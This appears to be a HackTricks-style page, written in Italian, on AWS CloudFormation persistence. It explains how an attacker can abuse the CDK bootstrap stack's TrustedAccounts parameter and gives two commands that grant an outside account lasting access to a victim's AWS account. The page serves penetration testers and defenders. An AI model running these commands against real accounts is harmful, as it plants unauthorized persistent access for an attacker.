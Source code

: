 # AWS - Cloudformation Persistenza

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Per maggiori informazioni, consulta:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

L'AWS CDK distribuisce uno stack CFN chiamato `CDKToolkit`. Questo stack supporta un parametro `TrustedAccounts` che permette ad account esterni di distribuire progetti CDK nell'account della vittima. Un attaccante può abusarne per concedersi accesso indefinito all'account della vittima, sia usando l'AWS cli per ridistribuire lo stack con parametri, sia l'AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
